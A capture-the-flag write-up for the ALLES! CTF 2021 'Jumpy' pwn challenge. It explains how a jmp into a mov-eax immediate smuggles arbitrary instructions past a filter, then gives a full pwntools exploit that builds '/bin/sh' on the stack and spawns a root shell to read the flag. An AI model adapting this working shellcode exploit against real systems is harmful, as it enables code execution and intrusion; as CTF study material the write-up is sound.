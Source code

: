 ## Jumpy

> Points: 139
>
> Solves: 82

### Description:
```

```

### Attachments:
```
jumpy  https://static.allesctf.net/ab1671dfdbc9923949d2dbc2bf1ff66006f86bb623cd9b2cbf94ce3f631dfbdd/jumpy
jumpy.c  https://static.allesctf.net/e8f31b0fc631eb709049df0d42491ddca1562a016474c10fdb03cf66f58113c8/jumpy.c
```

## Analysis:

The C language source code is provided below.


When you execute the jampy program, you can see that only 3 instructions can be specified.
supported insns:
- moveax $imm32
- jmp $imm8
- ret
- (EOF)

After the jmp instruction, it is checked if the next instruction is mov eax or jmp or ret.

```c
const instruction_t INSNS[3] = {
    {"ret", OP_RET},
    {"jmp", OP_SHORT_JMP},
    {"moveax", OP_MOV_EAX_IMM32},
};

const instruction_t *isns_by_mnemonic(char *mnemonic)
{
    for (int i = 0; i < sizeof(INSNS) / sizeof(INSNS[0]); i++)
        if (!strcmp(mnemonic, INSNS[i].mnemonic))
            return &INSNS[i];
    return NULL;
}
```

## Solution:

Since there is no instruction check after mov eax, I can execute any 4-byte instruction by made the following instruction sequence.

jmp 1
moveax 0xb8
moveax (Arbitrary 4-byte instruction)

```
             mov eax
          +-----------+
          |           |        
eb 01 b8 b8 00 00 00 b8 xx xx xx xx
|         ^
|         |
+---------+
   jmp 1

```

Since "/bin/sh" has 4 bytes or more and the mmap area (0x1337000000) cannot be written, the character string of "/bin/sh" was made on the stack.
```
mov bx, 0x68
shl rbx, 16
mov bx, 0x732f
shl rbx, 16
mov bx, 0x6e69
shl rbx, 16
mov bx, 0x622f
push rbx; mov rdi, rsp
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './jumpy'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = process("ncat --ssl 7b000000d136daaf77c18b37-jumpy.challenge.master.allesctf.net 31337", shell=True)
else:
  s = process(BINARY)
 
def Set_ins(data):
  s.sendlineafter("> ", "jmp 1")
  s.sendlineafter("> ", "moveax 184")
  s.sendlineafter("> ", "moveax " + str(u32(data)))

# rsi = 0; rdx = 0
Set_ins(asm('''xor rsi, rsi; nop'''))
Set_ins(asm('''push rsi; pop rdx; nop; nop'''))

# make /bin/sh in stack
Set_ins(asm('''mov bx, 0x68'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x732f'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x6e69'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x622f'''))
Set_ins(asm('''push rbx; mov rdi, rsp'''))

# rax = 0x3b
# syscall
Set_ins(asm('''xor rbx, rbx; nop'''))
Set_ins(asm('''add rbx, 0x3b'''))
Set_ins(asm('''push rbx; pop rax; syscall'''))

# Start shell
s.sendlineafter("> ", "a")

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/ALLES!_CTF_2021/Pwn_Jumpy$ python solve.py r
[*] '/home/mito/CTF/ALLES!_CTF_2021/Pwn_Jumpy/jumpy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/bin/sh': pid 62372
[*] Switching to interactive mode

running your code...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 92
lrwxrwxrwx   1 root root     7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 15  2020 boot
drwxr-xr-x   5 root root   360 Sep  4 08:08 dev
drwxr-xr-x   1 root root  4096 Sep  4 08:08 etc
-rw-r--r--   1 root root   100 Aug 29 22:12 flag
drwxr-xr-x   2 root root  4096 Apr 15  2020 home
-rwxr-xr-x   1 root root 19768 Aug 29 22:12 jumpy
lrwxrwxrwx   1 root root     7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Aug 27 07:16 media
drwxr-xr-x   2 root root  4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root  4096 Aug 27 07:16 opt
dr-xr-xr-x 783 root root     0 Sep  4 08:08 proc
drwx------   2 root root  4096 Aug 27 07:27 root
drwxr-xr-x   5 root root  4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root     8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root     0 Sep  4 08:08 sys
drwxrwxrwt   2 root root  4096 Aug 27 07:27 tmp
drwxr-xr-x  13 root root  4096 Aug 27 07:16 usr
drwxr-xr-x  11 root root  4096 Aug 27 07:27 var
-rwxr-xr-x   1 root root 18744 Aug 29 22:12 ynetd
$ cat flag
ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}
```
